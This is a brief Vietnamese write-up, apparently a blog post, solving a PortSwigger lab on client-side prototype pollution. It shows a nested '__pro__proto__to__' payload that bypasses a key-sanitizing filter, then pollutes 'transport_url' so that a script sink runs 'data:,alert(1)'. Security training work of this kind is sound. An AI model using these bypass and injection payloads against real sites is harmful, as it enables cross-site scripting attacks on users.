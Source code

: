 ```yaml
---
title: Client-side prototype pollution via flawed sanitization
date: 2023-04-19 12:13:13 +0700
categories: [PortSwigger, Prototype Pollution]
tags: [serverside, prototype_pollution]    # TAG names should always be lowercase
---
```


1. Nhận thấy trong resource, ở searchLoggerFiltered.js có hàm `sanitizeKey()` sẽ filter các key như `__proto__`, `constructor`, `prototype`
![image](https://user-images.githubusercontent.com/80744099/231054720-4286a5f6-c8c9-4c88-8b78-2316281cccf0.png)
1. Bypass filter bằng payload 
- ```?__pro__proto__to__[testKey]=testValue```
![image](https://user-images.githubusercontent.com/80744099/231054812-7c5a2a99-da82-4363-9c2e-e310e7090e4d.png)
1. Detect sink 
```
let script = document.createElement('script');
script.src = config.transport_url;
document.body.appendChild(script);
```
1. Chèn payload ``?__pro__proto__to__[transport_url]=data:,alert(1)//``
![image](https://user-images.githubusercontent.com/80744099/231056568-4285182b-03c9-4833-b0d4-03f02839ed8e.png)